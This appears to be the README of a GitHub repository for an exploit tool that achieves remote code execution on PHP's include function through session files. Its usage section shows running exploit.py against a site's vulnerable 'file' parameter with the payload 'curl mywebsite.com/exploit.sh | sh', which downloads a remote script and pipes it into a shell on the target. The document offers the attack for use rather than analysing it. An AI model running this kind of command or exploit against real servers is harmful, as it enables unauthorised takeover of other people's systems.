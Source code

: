# php-session-rce
Remote Code Execution on PHP's include function using PHP sessions.

## Usage
To attack a website running on `127.0.0.1` with a vulnerable parameter of `file` we can use the following:

```
python exploit.py http://127.0.0.1:9001 file "curl mywebsite.com/exploit.sh | sh"
```
